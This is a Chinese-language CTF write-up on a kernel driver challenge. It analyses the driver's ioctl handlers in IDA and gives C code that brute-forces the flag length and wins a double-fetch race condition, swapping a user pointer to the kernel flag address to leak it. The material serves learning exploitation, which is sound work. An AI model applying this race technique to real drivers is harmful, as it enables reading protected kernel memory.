

ida分析:


可以看到当command0x6666时，他会把flag的地址提供给我们。
command 0x1337时比较复杂，我们先看一下_chk_range_not_ok函数的功能：


通过查看汇编我们可以大概知道这个函数的作用：
主要就是将第一个和第二个参数的和，与第三个参数做一个比较。
这里我们去动态调试看一下第三个参数的值可以发现它是一个固定的值0x7ffffffff000。
这样就可以推测出他的作用是限制结构体所在内存为用户态，并且结构体中第一个成员指向的内存（info->buf）也要为用户态。

通过之前的判断后，就会与flag的长度进行比较，我们可以利用这个判断来爆破flag的长度（虽然flag是被硬编码在驱动文件中的，可以直接看到长度，但就太没意思了）。下面提供一个代码：

```
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>

struct info
{
    char *msg;
    size_t len;
};

int main()
{
    int fd = open("/dev/baby", 0);
    int rret;
    struct info myinfo;
    myinfo.msg = "test";
    myinfo.len = 0;
    for (int i=0;i<0x40;i++)
    {
        myinfo.len = i;
        rret = ioctl(fd, 0x1337, &myinfo);
        printf ("return : %d\n", rret);
        if (rret == 0x16)
            printf ("get flag len : %d\n", i);
    }
    return 0;
}
```
过了上面的检测后就会逐位与flag比较我们显然是不满足这个条件的。

这里我们可以在判断flag地址范围和flag内容之间进行竞争，通过第一处的检查之后就把flag的地址偷换成内核中真正flag的地址;然后自身与自身做比较，通过检查得到flag....

实现起来就是创建一个恶意线程,不断的将user_flag所指向的用户态地址修改为flag的内核地址以制造竞争条件,从而使其通过驱动中的逐字节比较检查,输出flag内容....

```
#include <stdio.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <string.h>
#include <fcntl.h>

struct info{
    char * buf;
    uint64_t len;
};
struct info my_info; 
uint64_t flag_ptr;
int finish = 0;
void change(){
    while(finish == 0){
        puts("123");
        my_info.buf = flag_ptr;
    }
}
int main(){
    int driver_fd = open("/dev/baby",0);
    ioctl(driver_fd, 0x6666);
    system("dmesg > /tmp/record.txt");
    int fd = open("/tmp/record.txt", O_RDONLY);
    lseek(fd,-0x50,SEEK_END);
    char temp[0x1000];
    read(fd,temp,0x50);
    char * ptr = strstr(temp,"Your flag is at ");
    if (ptr == 0){
        printf("no find!\n");
        exit(-1);
    }
    flag_ptr = strtoull(ptr+16,ptr + 32, 16);
    printf("\nflag address : %p\n",flag_ptr);
    my_info.buf = temp;
    my_info.len = 33;
    int pid;
    pthread_create(&pid,NULL, change);
    for (int i = 0 ; i < 10000; i++){
        my_info.buf = temp;
        ioctl(driver_fd,0x1337, &my_info); 
    }
    finish = 1;
    system("dmesg | grep flag");
}


/*
lseek(fd,-0x50,SEEK_END);   
char temp[0x1000];   
read(fd,temp,0x50);   
这三步就是读取文件的倒数0x50字节   
strstr()函数：获取字符串的位置，返回一个指针。      
strtoull()函数：将起始到终止位置的字符串取出转换为16进制。
*/
```


